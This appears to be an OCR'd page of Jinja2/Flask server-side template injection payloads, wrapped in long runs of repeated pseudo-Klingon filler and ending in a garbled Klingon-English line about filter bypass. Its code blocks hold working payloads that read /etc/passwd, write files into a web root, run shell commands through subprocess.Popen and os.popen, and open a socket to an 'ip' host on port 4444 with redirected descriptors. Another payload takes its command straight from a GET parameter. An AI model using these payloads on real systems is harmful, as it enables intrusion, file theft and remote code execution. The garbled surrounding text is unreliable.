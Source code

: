 **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh**
```python
# ''.__class__.__mro__[1].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read() }}
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```
**RCE** (Remote Code Execution)
```python
# The class 396 is the class <class 'subprocess.Popen'>
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}

# Calling os.popen without guessing the index of the class

{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("ls").read()}}{%endif%}{% endfor %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}

## Passing the cmd line in a GET param
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
{% endraw %}


```
**ghItlh** **vItlhutlh** **bIghHa'** **bypass** **ghaH** **vetlh** **classes** **'ej** **escape** **'e'** **'e'** **check**:
